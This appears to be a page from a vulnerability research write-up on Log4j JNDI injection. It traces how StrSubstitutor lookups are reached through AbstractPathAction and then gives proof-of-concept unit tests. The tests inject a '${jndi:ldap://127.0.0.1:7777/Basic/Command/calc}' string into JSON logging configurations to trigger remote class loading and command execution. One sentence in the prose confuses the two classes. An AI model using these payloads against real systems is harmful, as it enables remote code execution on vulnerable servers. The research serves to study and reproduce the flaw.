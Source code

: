 **AbstractAction.execute()**

In the inheritance tree, AbstractAction is related to AbstractPathAction. Primarily, AbstractPathAction introduces a new field:

```
private final StrSubstitutor subst;
```

This field is utilized within the execute method of AbstractPathAction, which triggers the entire call stack associated with StrSubstitutor.replace -> StrSubstitutor.resolveVariable -> StrSubstitutor.lookup. Unlike AbstractAction, which lacks the StrSubstitutor attribute and contains an empty execute method (since it's an abstract interface), AbstractAction does not have any proof of concept for reproducing the same issue.

## Pocs for Config Tree ##

**JSONConfigurationFactory.getConfiguration()**
```
 @Test
    public void getConfigurationJSONConfigurationFactoryTest() throws IOException {
        String jsonConfig = "{\"injectedObject\": {\"injectedProperty\":\"${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}\"}}";
        ByteArrayInputStream bis = new ByteArrayInputStream(jsonConfig.getBytes(StandardCharsets.UTF_8));
        ConfigurationSource source = new ConfigurationSource(bis);

        JsonConfigurationFactory factory = new JsonConfigurationFactory();
        Configuration config = factory.getConfiguration(new LoggerContext("testContext"), source);
    }
```

**JSONConfiguration.reconfigure()**

```
   @Test
    public void reconfigureJSONConfigurationFactoryTest() throws IOException {
        String jsonConfig = "{\"injectedObject\": {\"injectedProperty\":\"${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}\"}}";
        ByteArrayInputStream bis = new ByteArrayInputStream(jsonConfig.getBytes(StandardCharsets.UTF_8));
        ConfigurationSource source = new ConfigurationSource(bis);

        JsonConfiguration config = new JsonConfiguration(new LoggerContext("testContext"), source);
        config.reconfigure();
    }
```

**LoggerContext.setConfigLocation()**
```
@Test
    public void setConfigLocationUriTest()  {
        URI configUri = new File("config.json").toURI();
        LoggerContext context = (LoggerContext) LogManager.getContext(false);
        context.setConfigLocation(configUri);
    }
```
